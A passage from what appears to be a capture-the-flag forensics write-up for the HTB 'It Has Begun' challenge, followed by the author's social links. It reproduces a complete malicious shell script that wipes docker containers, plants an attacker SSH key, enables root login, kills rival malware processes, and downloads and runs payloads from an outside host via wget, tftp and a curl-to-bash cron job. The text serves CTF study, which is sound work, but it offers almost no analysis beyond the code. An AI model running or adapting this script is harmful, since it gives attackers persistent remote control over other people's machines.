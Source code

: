 **Flag**: HTB{0h_d4mn_4ny7h1ng_r41s3d_t0_0_1s_1!!!}

**================================================================================================**

### **It Has Begun - Forensics**

**Solving Scenario:**\
script.sh file:

```sh
#!/bin/sh

if [ "$HOSTNAME" != "KORP-STATION-013" ]; then
    exit
fi

if [ "$EUID" -ne 0 ]; then
    exit
fi

docker kill $(docker ps -q)
docker rm $(docker ps -a -q)

echo "ssh-rsa AAAAB4NzaC1yc2EAAAADAQABAAABAQCl0kIN33IJISIufmqpqg54D7s4J0L7XV2kep0rNzgY1S1IdE8HDAf7z1ipBVuGTygGsq+x4yVnxveGshVP48YmicQHJMCIljmn6Po0RMC48qihm/9ytoEYtkKkeiTR02c6DyIcDnX3QdlSmEqPqSNRQ/XDgM7qIB/VpYtAhK/7DoE8pqdoFNBU5+JlqeWYpsMO+qkHugKA5U22wEGs8xG2XyyDtrBcw10xz+M7U8Vpt0tEadeV973tXNNNpUgYGIFEsrDEAjbMkEsUw+iQmXg37EusEFjCVjBySGH3F+EQtwin3YmxbB9HRMzOIzNnXwCFaYU5JjTNnzylUBp/XB6B user@tS_u0y_ll1w{BTH" >> /root/.ssh/authorized_keys
echo "nameserver 8.8.8.8" >> /etc/resolv.conf
echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
echo "128.90.59.19 legions.korp.htb" >> /etc/hosts

for filename in /proc/*; do
    ex=$(ls -latrh $filename 2> /dev/null|grep exe)
    if echo $ex |grep -q "/var/lib/postgresql/data/postgres\|atlas.x86\|dotsh\|/tmp/systemd-private-\|bin/sysinit\|.bin/xorg\|nine.x86\|data/pg_mem\|/var/lib/postgresql/data/.*/memory\|/var/tmp/.bin/systemd\|balder\|sys/systemd\|rtw88_pcied\|.bin/x\|httpd_watchdog\|/var/Sofia\|3caec218-ce42-42da-8f58-970b22d131e9\|/tmp/watchdog\|cpu_hu\|/tmp/Manager\|/tmp/manh\|/tmp/agettyd\|/var/tmp/java\|/var/lib/postgresql/data/pоstmaster\|/memfd\|/var/lib/postgresql/data/pgdata/pоstmaster\|/tmp/.metabase/metabasew"; then
        result=$(echo "$filename" | sed "s/\/proc\///")
        kill -9 $result
        echo found $filename $result
    fi
done

ARCH=$(uname -m)
array=("x86" "x86_64" "mips" "aarch64" "arm")

if [[ $(echo ${array[@]} | grep -o "$ARCH" | wc -w) -eq 0 ]]; then
  exit
fi


cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; wget http://legions.korp.htb/0xda4.0xda4.$ARCH; chmod 777 0xda4.0xda4.$ARCH; ./0xda4.0xda4.$ARCH;
cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; tftp legions.korp.htb -c get 0xda4.0xda4.$ARCH; cat 0xda4.0xda4.$ARCH > DVRHelper; chmod +x *; ./DVRHelper $ARCH;
cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; busybox wget http://legions.korp.htb/0xda4.0xda4.$ARCH; chmod 777;./0xda4.0xda4.$ARCH;
echo "*/5 * * * * root curl -s http://legions.korp.htb/0xda4.0xda4.$ARCH | bash -c 'NG5kX3kwdVJfR3IwdU5kISF9' " >> /etc/crontab
```


[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn